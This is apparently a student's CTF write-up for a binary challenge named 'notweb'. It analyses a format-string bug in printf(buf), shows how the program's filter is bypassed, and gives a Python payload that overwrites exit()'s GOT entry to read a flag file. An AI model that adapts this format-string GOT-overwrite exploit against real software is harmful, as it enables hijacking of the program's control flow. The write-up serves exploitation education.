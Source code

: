 ```yaml
---
layout: post
title: 'notweb Writeup'
category: memo
slug: notweb-writeup
---
```

Security Programming Homework 3-2

## Finding Weak Points

After using gdb to do the dynamic analysis, I found that function `main()`
will call function `get_request()`. So I set the break point at the line
which calls `get_request()` and check it out step by step. The program calls
`fgets()` to get the input, and using `strtok()` to chop the string
according to the spaces. If the whold string only consists of one single word,
it calls exit to terminate the program. Otherwise the program will go on.

```nasm
08048a51:       89 45 ec                mov    DWORD PTR [ebp-0x14],eax
08048a54:       83 7d ec 00             cmp    DWORD PTR [ebp-0x14],0x0
08048a58:       75 0c                   jne    8048a66 <get_request+0x90>
08048a5a:       c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
08048a61:       e8 ea fb ff ff          call   8048650 <exit@plt>
```

The variable `buf` sucks in the whole line of input then splits the input
into tokens according to space and colon. A diagram is showed below:

```
ORIGINAL INPUT:

GET /echo:%x%x%x%x%x
|   |     |
|   |     v
|   v     stored in local variable in ``main()``, using ``s`` as example
v   length of the string is 5, the first character is stored in ``file``
abandoned
```

And there is a piece of code that contains `printf(buf)` in the function
`echo()`. With this, exploiting the vulnerability of format string to leak
arbitrary memory is easy. Even write some values into memory could be possible.

## Weird Filter

In `get_request()`, the first n bytes of global variable `buf` will be
eliminated before return. This will make the second for loop in
`filter_format()` has no effect. Because the first n bytes of global variable
`buf` are already been cleared with zeros, the length of the string is zero.
Thus the for loop will ended up immediately. As a result, the global `buf`
remains, '%' is not replaced with '\_'.

In function `echo()`, after calling `filter_format()`, the string which is
after ':' ('%' have already been replaced with '\_') will be copied to the front
end of the global variable `buf`. This could make the string which is after
':' of the global variable `buf` ('%' are not replaced with '\_') being
overlaped. So extra calculation must be taken to assure the target string not
being messed, if someone want to exploit the program using format string.

According to the example string which is entered into the program, the value in
the global variable `buf` before calling `printf(buf)` in function
`echo()` is:

```
_x_x_x_x_x\nx%x%x%x%x\n
```

The result showed up is:

```
_x_x_x_x_x
xfffe4f4cbf7f4b3d00
```

If the length of the string after ':' (including '\n') is exactly 10, it can
overwrite the byte which contains ':' (':' is replaced with string terminator
because of `strtok`). In the end, the whole string is connected again, rear
part is our original format string.

Padding some trival characters between ':' and the format string to ensure to
connect the global variable `buf` again, if the lenth of the string is less
than 10.

```
GET /echo:aaaaaaa%p
```

For the string which is longer than 10, one must pad some trival characters to
make sure the format string won't be covered by something useless by the
fxxking program logic.

```
GGET /echo:%p%p%p%p%p
```

## Objective

The return address is at `$esp+0x1c` in `echo()`, that is to say, using
`%7$p` could leak the return address (of course the length must be at least
10 characters). Our objective is to modify the address (0x0804917f) with the
address of function `normal_file()` (0x08048c8f). Besides, the content of the
global variable `file` should be "flag". With all of this, the function
`normal_file()` can have the ability of opening the file of the flag and
reading that file. The gods send nut to those who have no teeth, the server
side has already enabled ASLR, so we cannot know the location of the return
address in the stack. Thus, exploitation using format string to overwrite the
return address in the stack is not practical.

However, there's another way to control the `eip` though the return address
cannot be modified. The Global Offset Table (GOT) might be a good candidate.
The offset of the function `fflush()` in the GOT is 0x0804b018. The content
in that is the actual position of `fflush()` (0xf7e78760) after GLIBC was
dynamically loaded into the program. So we just have to replace the address
with the address of `normal_file()`. But again, the gods send nut to those
who have no theeth, there is a `fflush()` in the function `normal_file()`.
So doing this will cause an endless loop. A better choice is to modify the
address of the function `exit()` in the GOT to avoid that. The offset of the
function `exit()` in the GOT is 0x0804b03c.

```bash
$ readelf -r notweb

Relocation section '.rel.dyn' at offset 0x49c contains 3 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
 0804affc  00000c06 R_386_GLOB_DAT    00000000   __gmon_start__
 0804b080  00001805 R_386_COPY        0804b080   stdin
 0804b0a0  00001605 R_386_COPY        0804b0a0   stdout

Relocation section '.rel.plt' at offset 0x4b4 contains 21 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
 0804b00c  00000107 R_386_JUMP_SLOT   00000000   strstr
 0804b010  00000207 R_386_JUMP_SLOT   00000000   strcmp
 0804b014  00000307 R_386_JUMP_SLOT   00000000   printf
 0804b018  00000407 R_386_JUMP_SLOT   00000000   fflush
 0804b01c  00000507 R_386_JUMP_SLOT   00000000   memcpy
 0804b020  00000607 R_386_JUMP_SLOT   00000000   bzero
 0804b024  00000707 R_386_JUMP_SLOT   00000000   fgets
 0804b028  00000807 R_386_JUMP_SLOT   00000000   fclose
 0804b02c  00000907 R_386_JUMP_SLOT   00000000   chdir
 0804b030  00000a07 R_386_JUMP_SLOT   00000000   fseek
 0804b034  00000b07 R_386_JUMP_SLOT   00000000   fread
 0804b038  00000c07 R_386_JUMP_SLOT   00000000   __gmon_start__
 0804b03c  00000d07 R_386_JUMP_SLOT   00000000   exit
 0804b040  00000e07 R_386_JUMP_SLOT   00000000   strlen
 0804b044  00000f07 R_386_JUMP_SLOT   00000000   __libc_start_main
 0804b048  00001007 R_386_JUMP_SLOT   00000000   write
 0804b04c  00001107 R_386_JUMP_SLOT   00000000   ftell
 0804b050  00001207 R_386_JUMP_SLOT   00000000   fopen
 0804b054  00001307 R_386_JUMP_SLOT   00000000   strncpy
 0804b058  00001407 R_386_JUMP_SLOT   00000000   strtok
 0804b05c  00001507 R_386_JUMP_SLOT   00000000   sprintf
```

Besides controlling the `eip`, the global variable `file` should be set to
the string "flag", too.

## Exploitation

The key point is that how to design the payload and keep the original format
string from destroying by the filter. The following is the main part of the
exploitation code.

```python
# exit()'s offset in GOT showed up in stack fram
# normal_file() @ 0x08048c8f
# total 16 bytes
addr1  = struct.pack('<I', 0x0804b03c) # 0x8f
addr1 += struct.pack('<I', 0x0804b03d) # 0x8c
addr1 += struct.pack('<I', 0x0804b03e) # 0x04
addr1 += struct.pack('<I', 0x0804b03f) # 0x08

# file's address showed up in stack frame
# file @ 0x080637e0
# total 16 bytes
addr2  = struct.pack('<I', 0x080637e0) # 'f': 0x66 102
addr2 += struct.pack('<I', 0x080637e1) # 'l': 0x6c
addr2 += struct.pack('<I', 0x080637e2) # 'a': 0x61
addr2 += struct.pack('<I', 0x080637e3) # 'g': 0x67

inject1 = '%7c%15$hhn%253c%16$hhn%120c%17$hhn%4c%18$hhn' # 44 bytes
inject2 = '%78c%30$hhn%6c%31$hhn%245c%32$hhn%6c%33$hhna' # 44 bytes

padding = 'G'*110

payload = padding + 'GET /echo:' + addr1 + inject1 + addr2 + inject2 + '\n'
```

## Flag

The flag is:

```
SECPROG{But_PWN_!s_e@sier_th@n_WEB_XDDDD}
```
